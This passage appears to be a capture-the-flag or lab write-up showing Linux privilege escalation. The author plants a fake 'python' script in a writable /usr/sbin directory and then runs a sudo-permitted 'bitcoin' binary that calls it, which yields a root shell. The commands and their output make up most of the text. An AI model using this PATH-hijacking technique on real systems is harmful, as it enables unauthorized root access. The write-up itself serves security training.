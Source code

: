 ```
Orka@osboxes:/$ which python
which python
/usr/bin/python
Orka@osboxes:/$ ls -l /usr/bin/python
ls -l /usr/bin/python
lrwxrwxrwx 1 root root 9 Feb 28 2019 /usr/bin/python -> python2.7
```

Definitely, it was controlled by the **root** user and I do not have the permission to interact with it. Thanks to the `/usr/sbin` is owned by user **Orka** and I have the **write** permission on it:

```
Orka@osboxes:/$ ls -l /usr/ | grep "bin"
ls -l /usr/ | grep "bin"
drwxr-x--x 2 root Orka 57344 Jan 26 2021 bin
drwxrwxr-x 2 root Orka 12288 Jan 23 2021 sbin
```

Therefore, I move to the `/usr/sbin/` directory and create a new **python** binary which will implement the **bash** shell:

```
Orka@osboxes:/usr/sbin$ cat > python <<EOF
cat > python <<EOF

> #!/bin/bash
> #!/bin/bash
> /bin/bash
> /bin/bash
> EOF
> EOF
Orka@osboxes:/usr/sbin$ cat python
cat python
#!/bin/bash
/bin/bash
Orka@osboxes:/usr/sbin$ ls -l python
ls -l python
-rw-rw-r-- 1 Orka Orka 22 Sep 25 09:40 python
Orka@osboxes:/usr/sbin$ chmod +x python
chmod +x python
```

The final step is simply executing the **bitcoin** binary using `sudo`:

```
Orka@osboxes:/usr/sbin$ sudo /home/Orka/Desktop/bitcoin
sudo /home/Orka/Desktop/bitcoin
Enter the password : password
password
Access Granted...
User Manual:
Maximum Amount Of BitCoins Possible To Transfer at a time : 9
Amounts with more than one number will be stripped off!
And Lastly, be careful, everything is logged :)
Amount Of BitCoins : 123
123
root@osboxes:/usr/sbin# id
id
uid=0(root) gid=0(root) groups=0(root)
```
